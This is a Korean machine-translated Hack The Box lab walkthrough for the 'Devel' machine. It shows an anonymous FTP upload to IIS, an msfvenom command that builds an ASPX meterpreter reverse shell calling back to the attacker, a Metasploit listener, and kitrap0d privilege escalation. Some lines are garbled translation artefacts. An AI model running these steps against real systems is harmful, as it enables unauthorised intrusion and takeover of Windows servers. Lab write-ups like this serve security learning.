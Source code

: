 ```yaml
---
title: "Devel  Hack The Box 워크스루"
description: ""
coverImage: "/assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png"
date: 2024-06-19 01:18
ogImage: 
  url: /assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png
tag: Tech
originalTitle: "Devel — Hack The Box Walk-through"
link: "https://medium.com/@jaylinscorner/devel-hack-the-box-walkthrough-6a04f5f0b8a3"
---
```



안녕하세요!

오늘은 과거에 완료한 Hack The Box 머신인 Devel을 살펴보겠습니다. 이 머신은 Windows 머신에서의 지역 권한 상승을 강조합니다.

이 머신은 여전히 Hack The Box에서 이용 가능한 쉬운 난이도의 은퇴된 머신입니다. 이 글을 쓰는 시점에서는 불행히도 이 머신에 접근하려면 VIP 멤버십이 필요합니다. 제가 이 머신을 루팅했을 때는 무료였지만, 곧 다시 무료가 될 수도 있습니다.

더 이상 말 늑대, 시작해 봅시다!

<div class="content-ad"></div>

마크다운 형식으로 테이블 태그를 변경해주세요.

<div class="content-ad"></div>

우리가 포트 스캔 결과 익명 FTP 로그인이 허용되어 있음을 알려주었기 때문에 익명으로 FTP에 로그인을 시도해 볼 수 있습니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_2.png)

우리는 성공적으로 포트 21인 FTP에 익명으로 로그인했습니다. 현재 디렉토리에 있는 파일 목록을 볼 수 있습니다.

이 서버가 Microsoft IIS/7.5를 실행 중이기 때문에, ASP 및 ASPX 확장자를 가진 코드 실행을 허용하는 이 버전의 IIS에서 익명으로 파일을 업로드하는 시도를 해볼 수 있습니다.

<div class="content-ad"></div>


<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_3.png" />

랜덤 ASPX 파일을 업로드한 후 익명 사용자의 업로드 기능을 이용할 수 있다는 점을 알 수 있습니다.

ASPX 파일을 업로드할 수 있으므로 ASPX 역술을 생성해볼 수 있습니다.

터미널에서 Metasploit Payload Generator를 엽니다.


<div class="content-ad"></div>

```js
msfvenom
```

그런 다음, ASPX 역술 쉘을 만들려면 다음을 사용합니다:

```js
msfvenom -f aspx -p windows/meterpreter/reverse_tcp LHOST=(내_IP) LPORT=4444 -o moe.aspx
```

msfvenom을 사용하여 역술 쉘을 얻을 수 있는 올바른 페이로드를 생성하려고 합니다. 이 경우 Windows reverse_tcp 페이로드를 사용하고 있으며, 이는 Windows 상자이기 때문입니다. 선택한 옵션은 Meterpreter입니다.

<div class="content-ad"></div>

다음은 플래그입니다:

- -f: 출력 형식
- -p: 사용할 페이로드 (우리 시나리오에서는 Windows Reverse TCP)
- LHOST: 우리 자신입니다; 이 페이로드의 역쉘 수신 측에 있을 것입니다. 우리가 수신 대기 중인 IP를 입력하는 곳입니다 (eth0 또는 tun0)
- LPORT: 우리가 수신 대기할 포트, 보통 기본값으로 4444를 유지합니다
- -o: 서버에 업로드된 페이로드를 포함하는 출력 파일

이 파일을 업로드 시도하면 성공합니다. 이제 업로드한 파일과 상호 작용하기 위해 리스너를 구성합니다.

터미널에서 msfconsole을 실행하여 Metasploit으로 리스너를 구성합니다:

<div class="content-ad"></div>


msfconsole


그런 다음 사용할 exploit으로 이동하겠습니다.


use exploit/multi/handler 


그런 다음 옵션을 우리가 원하는 대로 구성합니다.

<div class="content-ad"></div>

해당 표식을 마크다운 형식으로 변경하시면 됩니다.

<div class="content-ad"></div>


```js
set payload windows/meterpreter/reverse_tcp
```

참고: 이번에는 세션 ID를 실행하기 전에 기억하는 것이 중요합니다. 나중에 사용할 것입니다.

이제 실행해 봅시다!! :

```js
run
```  


<div class="content-ad"></div>

우리는 브라우저에서 ASPX 역쉘 파일을 다음과 같이 로드합니다:

```js
10.10.10.5/{File_Name}
```

이제 터미널에서 호스트 OS 안에 있다는 것을 확인할 수 있습니다

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_4.png" />

<div class="content-ad"></div>

이제 파일 시스템으로 이동해 보아야 합니다. 가능하면 C 드라이브로 이동하겠습니다.

그래서 다음과 같이 세션을 백그라운드로 설정합니다:

```js
background
```

그런 다음, 획득한 시스템에서 로컬 취약점을 찾기 위해 Metasploit을 다시 엽니다. msfconsole을 열고 exploit/multi/handler로 이동한 다음 post/multi/recon/local_exploit_suggester로 넘어갑니다.

<div class="content-ad"></div>

```js
use post/multi/recon/local_exploit_suggester
```

![Image 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_5.png)

이전에 메모한 세션 ID를 여기에 입력하겠습니다:

![Image 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_6.png)


<div class="content-ad"></div>

우리의 세션 ID를 구성한 후에 이를 실행할 거에요. 이 모듈은 Windows에서 로컬 악용을 찾을 거에요.

실행이 완료되면 Metasploit이 사용을 제안하는 것을 볼 수 있을 거에요:

```js
exploit/windows/local/ms10_015_kitrap0d
```

이 모듈은 Windows Machines에서 시스템 권한으로 새로운 세션을 만들 것이에요. 이 모듈은 CVE-2010–0232와 관련된 악용인데요, 이는 Microsoft Windows 커널 예외 처리기 취약점에 관련된 것이에요.

<div class="content-ad"></div>

우리는 옵션을 조정합니다...

맞죠!

```js
show options
```

들을 호스트를 설정해요. 그리고 우리의 리스닝 포트를 4445로 설정할 거에요; 다른 포트를 사용하여 exploit을 수행할 거예요. 마지막으로 세션을 리스너와 동일하게 만들 거에요.

<div class="content-ad"></div>

그럼 이제 실행해 봅시다!

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_7.png)

우리의 Exploit이 완료된 것 같은데 성공했을까요?

Meterpreter에서 명령 셸을 사용합니다.

<div class="content-ad"></div>

접근 성공! 이제 cd ..를 사용하여 C 드라이브로 이동합니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_8.png)

C 드라이브의 내용을 분석하고 사용자 디렉토리가 흥미로울 수 있다는 것을 알 수 있었습니다. 해당 디렉터리로 이동하면 관리자 및 바비스와 같이 발견할 가치가 있는 2개의 사용자 디렉토리가 보입니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_9.png)

<div class="content-ad"></div>

해당 디렉터리로 이동하고 두 가지 모두 사용자 및 루트 권한을 얻어야 이 상자를 루팅할 수 있어요!

![이미지 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_10.png)

![이미지 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_11.png)

이것은 제 첫 번째 게시된 Hack The Box 워크스루입니다. 이 워크스루를 작성하는 것은 나에게 유용한 경험을 얻게 도와주고 동시에 다른 사람들이 학습하는 데 도움이 되기도 해요!

<div class="content-ad"></div>

도움이 되었다면 알려주세요. 또한 Linkedin에서 연락해도 괜찮습니다:

www.linkedin.com/in/jaylin-nelson

참고 문헌: